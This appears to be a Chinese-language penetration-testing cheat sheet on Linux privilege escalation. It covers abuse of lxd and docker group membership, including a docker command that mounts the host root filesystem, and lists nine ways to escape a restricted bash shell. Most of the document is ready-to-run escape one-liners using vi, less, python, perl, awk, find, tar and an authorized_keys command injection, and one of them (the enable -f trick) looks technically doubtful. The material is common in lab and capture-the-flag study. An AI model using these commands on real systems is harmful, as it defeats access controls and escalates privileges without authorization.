

# lxd,docker,rbash

# lxd容器
提权条件:
以获得shell
用户属于lxd组(id查看)
也可用LinEnum脚本探测

步骤:创建容器,挂载磁盘,进入容器,进入目录提权


# docker(提权)---也就是利用docker容器外部提权,不是逃逸(逃逸有可能需要容器的root)
条件:用户权限是否在docker组中(id)
docker run -v /:/mnt -it alpine


# Rbash（Restricted Shell）
RBash 的限制机制
RBash 通常会限制以下操作：
cd 命令（无法切换目录）
设置/修改环境变量（如 PATH, SHELL）
使用绝对路径或包含 / 的命令
执行特定危险命令（如 ssh, vim）
重定向操作符（>, <, |）

usermod -s /bin/rbash user(对用户进行rbash限制)

绕过:
1. ​利用 Shell 内置命令
```
echo $PATH        # 查看当前 PATH
PATH=$PATH:/bin   # 添加 /bin（某些场景可修改）
```

2. ​利用程序逃逸功能
支持交互式命令的程序（如文本编辑器）：
```
# 使用 vi/vim
vi
:set shell=/bin/bash
:shell   # 获得完整 bash

# 使用 less/more
less /etc/passwd
! /bin/bash   # 启动新 shell
```

3. ​SSH 命令注入
通过 authorized_keys 注入命令（需写权限）：
```
# 在 authorized_keys 添加：
command="export PATH=/bin:$PATH; bash" ssh-rsa AAAAB3Nza...
```
4. ​编程语言解释器
```
# Python
python -c 'import os; os.system("/bin/bash")'

# Perl
perl -e 'exec "/bin/bash"'
```

5. ​环境变量污染
```
# 覆盖 SHELL 变量（某些实现有效）
export SHELL=/bin/bash
bash
```
6. ​符号链接与文件操作
```
# 创建符号链接
ln -s /bin/bash /tmp/breakout
/tmp/breakout   # 执行
```

7. ​命令欺骗
```
# 使用 awk
awk 'BEGIN {system("/bin/bash")}'

# 使用 find
find . -exec /bin/bash \;
```


8. ​内置命令绕过
```
# 使用 enable 命令重载
enable -f /bin/bash bash
bash
```
9. ​压缩工具逃逸
```
# 使用 tar
tar -cf /dev/null /dev/null --use-compress-program /bin/bash
```
